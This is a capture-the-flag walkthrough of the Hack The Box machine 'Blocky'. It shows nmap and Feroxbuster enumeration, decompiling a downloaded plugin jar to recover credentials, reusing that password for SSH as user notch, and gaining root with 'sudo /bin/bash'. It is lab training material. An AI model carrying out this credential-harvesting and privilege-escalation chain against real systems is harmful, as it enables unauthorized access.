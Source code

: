 # HTB - Blocky

#### Ip: 10.10.10.37
#### Name: Blocky
#### Difficulty: Easy

----------------------------------------------------------------------

![Blocky.png](../assets/blocky_assets/Blocky.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.37 -sC -sV   
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 13:38 CDT
Nmap scan report for 10.10.10.37
Host is up (0.063s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://blocky.htb
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.65 seconds
```

Looks like the Ip is forwarding to blocky.htb, so lets add that to our `/etc/hosts` file.

Heading over to the website we find a WordPress site that is under construction:

![site.png](../assets/blocky_assets/site.png)

Looking a bit closer at the site we find a potential username:

![notch.png](../assets/blocky_assets/notch.png)

Running Feroxbuster for directory fuzzing we find a `/plugins` page:

![ferox.png](../assets/blocky_assets/ferox.png)

Which contains 2 .jar files we can download:

![files.png](../assets/blocky_assets/files.png)

Lets inpect these files using jd-gui:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ jd-gui BlockyCore.jar
```

![creds.png](../assets/blocky_assets/creds.png)

Nice, looks like we've discovered some credentials. These appear to be database credentials, but lets see if either root or the user notch have any password resuse going on for SSH.

### Exploitation

No luck for the root user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh root@10.10.10.37    
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
root@10.10.10.37's password: 
Permission denied, please try again.
```

But the password did work for the notch user:

```text
┌──(ryan㉿kali)-[~/HTB/Blocky]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Wed Sep 20 17:14:31 2023 from 10.10.14.4
notch@Blocky:~$ whoami && hostname
notch
Blocky
```
From here we can grab the user.txt flag:

![user_flag.png](../assets/blocky_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see what commands notch can run with elevated permissions, we find they can run absolutely anything with sudo:

```text
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Lets run `sudo /bin/bash` to elevate our permissions in the shell:

```text
notch@Blocky:~$ sudo /bin/bash
root@Blocky:~# whoami
root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we can grab the final flag:

![root_flag.png](../assets/blocky_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------
